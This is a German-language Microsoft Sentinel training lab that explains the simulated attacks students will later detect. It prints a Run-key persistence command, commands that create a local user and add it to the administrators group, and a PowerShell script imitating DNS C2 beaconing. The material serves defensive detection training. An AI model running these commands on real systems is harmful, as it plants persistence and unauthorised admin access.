 ```yaml
---
lab:
  title: Übung 5 – Verstehen der Erkennungsmodellierung
  module: Learning Path 9 - Create detections and perform investigations using Microsoft Sentinel
---
```


# Lernpfad 9 – Lab 1 – Übung 5: Verstehen der Erkennungsmodellierung

## Labszenario

![Übersicht über Lab.](../Media/SC-200-Lab_Diagrams_Mod7_L1_Ex5.png)

### Geschätzte Zeit bis zum Abschluss dieses Labs: 30 Minuten

### Aufgabe 1: Verstehen der Angriffe

>**Wichtig: In dieser Übung werden keine Aktionen ausgeführt.**  Diese Anweisungen sind nur eine Erklärung der Angriffe, die Sie in der nächsten Übung durchführen werden. Bitte lesen Sie diese Seite aufmerksam durch.

Angriffsmuster basieren auf einem Open-Source-Projekt: <https://github.com/redcanaryco/atomic-red-team>

#### Angriff 1 – Persistenz mit dem Registrierungsschlüssel hinzufügen

Angreifer fügen ein Programm im Registrierungsschlüssel ausführen hinzu. Dadurch wird Persistenz erreicht, indem das Programm bei jeder Anmeldung des Benutzers ausgeführt wird.

```
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

#### Angriff 2 – Benutzerberechtigungen hinzufügen und erhöhen

Der Angreifer fügt neue Benutzer hinzu und erhebt den neuen Benutzer in die Gruppe der Administratoren. Dadurch kann sich der Angreifer mit einem anderen privilegierten Konto anmelden.

```
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

#### Angriff 3 – DNS/C2

Angreifer sendet eine große Anzahl von DNS-Abfragen an einen Befehls- und Steuerelementserver (C2). Die Absicht ist, eine schwellwertbasierte Erkennung der Anzahl von DNS-Anfragen entweder von einem einzelnen Quellsystem oder zu einer einzelnen Zieldomäne auszulösen.

```
param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)
$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)
$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x2 = 1
    }
    else
    {
        $x2 = $x2 + 1
    }
    if ($x3 -eq 7 )
    {
        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x3 = 1
    }
    else
    {
        $x3 = $x3 + 1
    }
    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
```

### Aufgabe 2: Verstehen der Erkennungsmodellierung

Der in dieser Übung verwendete Angriffserkennungs-Konfigurationszyklus repräsentiert alle Datenquellen, auch wenn Sie sich nur auf zwei bestimmte Datenquellen konzentrieren.

Um eine Erkennung zu erstellen, beginnen Sie mit der Erstellung einer KQL-Anweisung. Da Sie einen Host angreifen, verfügen Sie über repräsentative Daten, um mit der Erstellung der KQL-Anweisung zu beginnen.

Nachdem Sie die KQL-Anweisung erstellt haben, erstellen Sie die Analyseregel.

Sobald die Regel ausgelöst wird und Warnungen und Incidents generiert, prüfen Sie, ob Sie Felder zur Verfügung stellen, die den Security Operations Analysts bei ihren Untersuchungen helfen.

Nehmen Sie anschließend weitere Änderungen an der Analyseregel vor.

>**Hinweis:** Einige Warnungen werden nur zu Labzwecken in einem kürzeren Zeitintervall ausgelöst.

## Fahren Sie mit Übung 6 fort
